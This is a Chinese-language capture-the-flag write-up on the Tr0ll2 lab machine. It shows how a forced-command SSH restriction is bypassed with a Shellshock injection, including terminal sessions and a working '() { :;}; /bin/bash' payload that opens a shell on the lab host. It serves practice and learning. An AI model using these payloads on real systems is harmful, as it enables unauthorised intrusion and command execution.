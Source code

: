 在打靶机Tr0ll2时遇到了这个问题
```bash
┌──(kali㉿kali)-[~/workspace/troll2]
└─$ ssh -i noob Tr0ll@192.168.10.8 -oPubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss
Tr0ll@192.168.10.8's password: 
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/
New release '14.04.1 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Mar 17 00:14:01 2024 from 192.168.10.3
Connection to 192.168.10.8 closed.
```
其实不能放到LPE这个板块
但是既然是shellshock，也没地方放了

遇到的问题就是得到了私钥结果无法登录，一连就断

## 简介
OpenSSH支持阻止SSH客户端运行命令并生成交互式登录 shell。但是，如果相应的 SSH 服务器容易受到Shellshock的攻击，则客户端可以通过利用该错误并在客户端用户权限内运行任何命令来绕过此限制。

```bash
┌──(kali㉿kali)-[~/workspace/troll2]
└─$ ssh -i noob Tr0ll@192.168.10.8 'echo hello' 
sign_and_send_pubkey: no mutual signature supported
Tr0ll@192.168.10.8's password: 
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace/troll2]
└─$ ssh -i noob Tr0ll@192.168.10.8             
sign_and_send_pubkey: no mutual signature supported
Tr0ll@192.168.10.8's password: 
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/
New release '14.04.1 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Mar 17 00:14:34 2024 from 192.168.10.3
Connection to 192.168.10.8 closed.
```

通过上面的命令可以发现，虽然用户无法访问交互式 shell
如果它们提供与ssh命令一起运行的命令，sshd会将其复制到SSH_ORIGINAL_COMMAND变量中，但仅运行强制命令
这里运行了echo命令，打断了后面的ssh，所以没有welcome信息了

这里就产生了rce

## 如何通过 SSH 利用 Shellshock

要成功通过 SSH 进行 Shellshock 攻击，必须满足某些条件：

服务器有一个易受攻击的 Bash 版本
客户端有一个有效的SSH 密钥
客户端用户的登录 shell指向相同的易受攻击的 Bash；否则，使用不易受攻击的 Bash 版本或使用不同的 shell 作为登录 shell（例如zsh）不会导致漏洞利用
服务器使用ForceCommand或命令指令限制用户的 SSH 访问，如前所述；否则，用户可以直接登录访问交互式 shell

```bash
┌──(kali㉿kali)-[~/workspace/troll2]
└─$ ssh -i noob noob@192.168.10.8 -oPubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss '() { :;}; echo USER=$USER and SHELL=$SHELL'
USER=noob and SHELL=/bin/bash
TRY HARDER LOL!

┌──(kali㉿kali)-[~/workspace/troll2]
└─$ ssh -i noob noob@192.168.10.8 -oPubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss '() { :;}; /bin/bash'                       
id
uid=1002(noob) gid=1002(noob) groups=1002(noob)
```
